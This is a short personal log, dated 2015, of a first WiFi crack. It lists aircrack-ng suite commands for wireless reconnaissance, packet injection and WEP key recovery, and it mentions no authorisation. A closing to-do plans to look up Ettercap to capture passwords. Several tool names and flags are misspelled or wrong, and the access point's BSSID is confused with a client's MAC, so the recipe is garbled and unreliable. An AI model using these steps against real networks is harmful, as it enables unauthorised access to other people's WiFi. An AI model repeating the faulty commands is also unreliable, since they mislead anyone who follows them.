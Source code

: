# 27/11/2015

Hacked WiFi for the first time! ![FOTO](http://i.imgur.com/PP0AThP.png)

Steps/Commands

wlan0 = own interface -> wlan1monmon
mon0 = find it by "airmon-ng"

Wireless Reconnaiccance:
window 1
	- iwconfig
	- airmin-ng start wlan0
	- airodump-ng mon0
	- find information in table
		- ESSID
		- BSSID
		- Channel
		- client's  MAC

WEP:
window 1
	- airmon-ng
		- find mon0
	- airodump-ng mon0
	- find information in table
	
new window 2
	- airodump-ng --bssid "client's MAC" -c "Channel" -w wep_log mon0
	
new window 3
	- airdoplay-ng -l 0 -a "client's MAC" -h "own MAC" -e "name connaction" mon0 --ignore-negative-one
		new window -> ifconfig -> find own MAC
	- airoplay-ng -3 -b "client's MAC" -h "own MAC" mon0 --ignore-negative-one

new window 4
	- aireplay-ng -2 -p 0841 -c FF:FF:FF:FF:FF:FF -b "client's MAC" -h "own MAC" mon0 --ignore-negative-one
	- use this packet? ENTER


new window 2
	- everything is fine if data is above 5000 
	- close window 2, 3, 4

first window	
	- clear
	- aircrack-ng -a l -b "client's MAC" -n 64 wep_log-01.cap
	
FIND PASSWORD!!!!

Next time: Script schrijven!
TODO: Ethercap opzoeken (Hoe wachtwoorden "vangen" !?)
